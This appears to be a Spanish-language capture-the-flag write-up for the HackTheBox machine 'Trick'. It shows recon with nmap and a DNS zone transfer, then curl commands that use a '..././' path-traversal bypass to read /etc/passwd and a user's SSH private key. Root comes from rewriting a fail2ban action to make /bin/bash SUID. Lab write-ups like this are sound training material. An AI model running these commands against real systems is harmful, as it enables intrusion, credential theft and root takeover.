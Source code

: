 ```yaml
---
layout:   post
title:    "Write Up Trick."
subtitle: "Starting-Point"
category:   HTB
tags:      [Easy,Linux,SSTI,axfr,DNS,SQLi,LFI,RCE,SQLmap,Write-Up-Machine,Starting-Point,eWPT,eWPTXv2,OSWE,OSCP]  
---
```

![list](/assets/img/trick/trick.png){:.lead width="800" height="100" loading="lazy"}

***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconocimiento

Fase inicial donde recolectamos toda la información posible del objetivo, utilizando diferentes técnicas como:

| Caracter.                                   |
|:--------------------------------------------|
|Recopilación de tecnologuias.                |
|Dominios.                                    |
|IPs.                                         |
|Puertos.                                     |
|Servicios.                                   |
|Recopilación de metadatos, etc.              |


***
### nmap

Utizando nmap comprobamos que puertos estan abiertos.


```bash
nmap -p- --open --min-rate 5000 -sS -n -vvv -Pn 10.10.11.166 -oA allports
```


El paso anterior se debe hacer con privileguios (root).
{:.note title="Attention"}


![list](/assets/img/trick/Kali-2022-08-30-19-23-17.png){:.lead width="800" height="100" loading="lazy"}

***
### Servicios y versiones

Una vez sabemos que puertos estan abiertos con el comandoa anterior debemos saber que versiones y servicios que corren en los mismo de ahi podremos determinara posibles vulnerabilidades.

Esto lo hacemos con el siguiente comando.


```bash
nmap -p22,25,53,80 -sV -sC 10.10.11.166 -oN target
```


![list](/assets/img/trick/Kali-2022-08-30-19-23-22.png){:.lead width="800" height="100" loading="lazy"}


El paso anterior no es nesesario ser (root).
{:.note title="Attention"}
***
## Analisis de vulnerabilidades


Uso de Investigacion web, Google Hacking,Google Dorks y recopilación de información gracias a servicios de terceros, ademas ispeccionamos la web.

Inpeccionamos las tecnologias de la ip ataves de la terminal o via  web esto lo hacemos con wapalizzer o whatweb.

![list](/assets/img/trick/Kali-2022-08-30-19-27-48.png){:.lead width="800" height="100" loading="lazy"}

Ya que esta el puero 53 abierto vamos a probar el ataque de domain zone transfer `axfr`, esto lo hacemos con la herramienta dig.

![list](/assets/img/trick/Kali-2022-08-30-19-37-54.png){:.lead width="800" height="100" loading="lazy"}

```bash
dig trick.htb axfr @10.10.10.161 
```

{:.note}
El dominio se deduce ya que todas las maquinas de este tipo van con el nombre de la misma y punto htb, todo los dominios los incorporamos al `/etc/hosts`.


{:.note}
El dominio `preprod-payroll.trick.htb` que metimos al `/etc/hosts`es que debemos recargar en la pagina web para encontrarnos con un login.

![list](/assets/img/trick/1.png){:.lead width="800" height="100" loading="lazy"}

Utilizamos sqlmap para conseguir archivos de la máquina.

![list](/assets/img/trick/Kali-2022-08-30-19-46-06.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Aunque no encontramos nada lo que podemos pensar esque exite el dominio `preprod-` y despues del guion puede que exita otros por lo quepodemos aplicar fuerza bruta.

![list](/assets/img/trick/Kali-2022-08-30-20-25-07.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Ahora encontramos otro dominio `preprod-marketing`en el cual encontramos algp de informacion.

inspeccionando la web vemos que se gestiona con el parametro `page=` lo que me hace pensar en local file inclusion pero tiene protección,pero con sqlmap podemos leer el index.php 

intentando lo que hicimos antes.

![list](/assets/img/trick/Kali-2022-08-30-20-41-09.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Cuando analizamos el contenido nos podemos fijar que remplaza  "../" a "" vacio, pero esta protección se puede bypassear facilmente, hay un ejemplo en el repositorio de [PayloadsAllTheThings].

[PayloadsAllTheThings]: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal

Ya con la forma de bypassear el lfi podemos enumerar el numero de usuarios de la  victima.

![list](/assets/img/trick/Kali-2022-08-30-20-46-51.png){:.lead width="800" height="100" loading="lazy"}


```bash
curl "preprod-marketing.trick.htb/index.php?page=..././..././..././etc/passwd" | grep bash
```

Tambien podemos enumerar la id_rsa de usuario michael para conectarnos por ssh.


```bash
curl "preprod-marketing.trick.htb/index.php?page=..././..././..././home/michael/.ssh/id_rsa"
```


Al conectarnos por ssh de la siguiente manera ya somo capaces de buscar la flag de user.txt en el escritorio.


![list](/assets/img/trick/Kali-2022-08-30-20-56-38.png){:.lead width="800" height="100" loading="lazy"}


```bash
 ssh michael@10.10.11.166 -i id_rsa
```


{:.note}
No debes olvidarte de darle permiso 600 a la id_rsa.

***
## Escalacion de privileguios

Siempre es bueno ejecutar `LimEnum` Y `pspy` para monitorizar y ver los posibles vectores para escalar de privilegios, pero en este caso con sudo -l vemos ue un servicio fail2ban se puede reiniciar como root sin contraseña.

Debemos localizar el archivo de configuración de fail2ban.

![list](/assets/img/trick/Kali-2022-08-30-21-11-51.png){:.lead width="800" height="100" loading="lazy"}

No podemos modificar el actionban pero podemos borrarlo y crear uno nuevo asi que harémos lo siguiente preferentemente en /tmp.

![list](/assets/img/trick/Kali-2022-08-30-21-14-58.png){:.lead width="800" height="100" loading="lazy"}

```bash
sed "s/<iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>/chmod u+s \/bin\/bash/g" /etc/fail2ban/action.d/iptables-multiport.conf > config.conf
```

{:.note}
injectaremos ese one-liner en config.conf.


```bash
rm -f /etc/fail2ban/action.d/iptables-multiport.conf
```

{:.note}
Borramos el archivo `iptables-multiport.conf`.


```bash
mv config.conf /etc/fail2ban/action.d/iptables-multiport.conf
```

{:.note}
Movemos config.conf a la ruta en action.d con el nombre`iptables-multiport.conf` .


Reiniciaremos el servicio y aplicaremos fuerza bruta con `Hydra` para forzar el ban, ahora si como ya no estamos restingidos a nivel de iptables podemos usar Hydra y después dealgunos segundos la bash deberia de convertirse en suid y nos convertimos root.


![list](/assets/img/trick/Kali-2022-08-30-21-18-19.png){:.lead width="800" height="100" loading="lazy"}

En estepunto usaremos `ls -la` para ver debe de estr con la letra "s" y luego con el comado `bash -p` non comvertimos en root.

![list](/assets/img/trick/Kali-2022-08-30-21-38-25.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
La flag de rootsueleestr en el escritorip del usuario /root.

***
```bash
🎉 Felicitaciones ya has comprometido Trick de HackTheBox 🎉
```
{:.centered}
***
<!---Back to [Beginner Track](2022-09-12-Beginner-Track.md){:.heading.flip-title}
{:.read-more}-->
